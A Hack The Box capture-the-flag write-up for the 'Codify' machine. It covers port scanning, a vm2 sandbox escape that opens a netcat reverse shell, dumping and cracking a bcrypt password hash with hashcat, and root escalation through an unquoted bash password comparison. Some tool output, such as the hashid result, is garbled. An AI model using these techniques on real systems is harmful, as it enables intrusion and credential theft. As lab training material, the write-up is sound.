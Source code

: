 ```yaml
---
title: Hack the box Codify pwned!
date: 2024-02-24 00:00:01 +0000
categories: [hack the box, machine]
tags: [hack the box, machine, codify, vm2 library, sqlite, posix variable quotes]
img_path: /assets/img/posts/
---
```


## Machine info

![Codify](htb-codify-info.png)
*Codify info*

## Annotations

>In this article we are going to assume the following ip addresses:
>
>Local machine (attacker, local host): 10.10.16.96
>
>Target machine (victim, Codify): 10.10.11.239
{: .prompt-info}

## Enumeration

If we list the open ports in the machine, we can see that there are two open ports: 22 (ssh) and 80 (http):

`nmap -Pn -n -sS -p- -T5 --min-rate 5000 -oN nmap_initial.txt 10.10.11.239`

```
22/tcp open  ssh
80/tcp open  http
```

## Footprinting

If we look for more information about the services running in those ports we will find the machine address:

`map -Pn -n -sVC -p22,80 10.10.11.239`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 96071cc6773e07a0cc6f2419744d570b (ECDSA)
|_  256 0ba4c0cfe23b95aef6f5df7d0c88d6ce (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-server-header: Apache/2.4.52 (Ubuntu)
|_http-title: Did not follow redirect to http://codify.htb/
Service Info: Host: codify.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We add the machine address to our `/etc/hosts`:

`echo "10.10.11.239 codify.htb" | sudo tee -a /etc/hosts`

### Codify web

We browse to `http://codify.htb` to take a look at the web:

#### Codify

![Codify](htb-codify-web-codify.png)
*Codify*

#### About us

![Codify about us](htb-codify-web-about-us.png)
*Codify about us*

Here, we can see that the editor is using the [vm2 library](https://github.com/patriksimek/vm2).

#### Limitations

![Codify limitations](htb-codify-web-limitations.png)
*Codify limitations*

#### Editor

![Codify editor](htb-codify-web-editor.png)
*Codify editor*

## Foothold

As the editor is using the [vm2 library](https://github.com/patriksimek/vm2), and this project is discontinued due security issues, we let's take advantage of a [sandbox escape PoC in vm2](https://gist.github.com/leesh3288/381b230b04936dd4d74aaf90cc8bb244) to inject a reverse shell in the editor.

We start a listener in our host:

```
nc -lvnp 1234
``` 

And, we inject the reverse shell in the editor:

![Codify editor reverse shell](htb-codify-web-editor-reverse-shell.png)
*Codify editor reverse shell*

### svc

Now, we get shell as the user `svc`.

```
svc@codify:~$ whoami 
svc
svc@codify:~$ id
uid=1001(svc) gid=1001(svc) groups=1001(svc)
```

After taking a look at the system files, in `/var/www/contact` we can find the sqlite3 database `tickets.db`.
Inside the database we will find the hashed password for the user `joshua`:

`sqlite3 tickets.db`

```
sqlite> .tables
tickets  users  
sqlite> select * from users;
3|joshua|$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2
```

We analyze the hash to see what type it is:

```
hashid $2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2  
Analyzing 'a/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2'
[+] Cisco Type ba4c0cfe23b95aef6f5df7d0c88d6ce
```

We put the hash in the `hash.txt`file:

`echo "$2a$12$SOn8Pf6z8fO/nVsNbAAequ/P6vLRJJl7gCUEiYBU2iLHn4G/p/Zw2" > hash.txt`

And, we crack the hash using `hashcat`:

```
hashcat -a 0 -m 3200 hash.txt /opt/SecLists/Passwords/Leaked-Databases/rockyou.txt
```

### joshua

Now, we have a new user and password, and since seems useless on the web, we will try to connect by `ssh`:

`ssh joshua@10.10.11.239`

And we are in!

```
joshua@codify:~$ id 
uid=1000(joshua) gid=1000(joshua) groups=1000(joshua)
```

We can get our user flag:

`joshua@codify:~$ cat user.txt`

After taking our flag, we need to escalate privileges, so let's take a look to see what we can do as `joshua`:

```
joshua@codify:~$ sudo -l
[sudo] password for joshua: 
Matching Defaults entries for joshua on codify:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User joshua may run the following commands on codify:
    (root) /opt/scripts/mysql-backup.sh
```

We can execute the `/opt/scripts/mysql-backup.sh` script as root, so let's take a look at the source code:

```bash
joshua@codify:~$ cat /opt/scripts/mysql-backup.sh 
#!/bin/bash
DB_USER="root"
DB_PASS=$(/usr/bin/cat /root/.creds)
BACKUP_DIR="/var/backups/mysql"

read -s -p "Enter MySQL password for $DB_USER: " USER_PASS
/usr/bin/echo

if [[ $DB_PASS == $USER_PASS ]]; then
        /usr/bin/echo "Password confirmed!"
else
        /usr/bin/echo "Password confirmation failed!"
        exit 1
fi

/usr/bin/mkdir -p "$BACKUP_DIR"

databases=$(/usr/bin/mysql -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" -e "SHOW DATABASES;" | /usr/bin/grep -Ev "(Database|information_schema|performance_schema)")

for db in $databases; do
    /usr/bin/echo "Backing up database: $db"
    /usr/bin/mysqldump --force -u "$DB_USER" -h 0.0.0.0 -P 3306 -p"$DB_PASS" "$db" | /usr/bin/gzip > "$BACKUP_DIR/$db.sql.gz"
done

/usr/bin/echo "All databases backed up successfully!"
/usr/bin/echo "Changing the permissions"
/usr/bin/chown root:sys-adm "$BACKUP_DIR"
/usr/bin/chmod 774 -R "$BACKUP_DIR"
/usr/bin/echo 'Done!'
```

Ok, we can see that the programmer forgot to quote the variables in the passwords comparision:

```bash
if [[ $DB_PASS == $USER_PASS ]]
```

So, we can exploit this in order to get the root password.
If you want to know more about the implications of forgetting to quote a variable in bash comparisons you can take a look at this **GREAT** post in [stackexchange](https://stackexchange.com/):
[security implications of forgetting to quote a variable in bash posix shells](https://unix.stackexchange.com/questions/171346/security-implications-of-forgetting-to-quote-a-variable-in-bash-posix-shells)

To bruteforce the root password I did a python script that you can see here: [bruceforcer.py](https://github.com/rubenhortas/hackthebox/blob/main/codify/bruteforcer.py)

After a while we will have our root password and we can get the system flag:

`su`

`root@codify:~# cat /root/root.txt`

## Pwned!

![Codify](htb-codify-pwned.png)
*Codify has been Pwned*

*Enjoy! ;)*
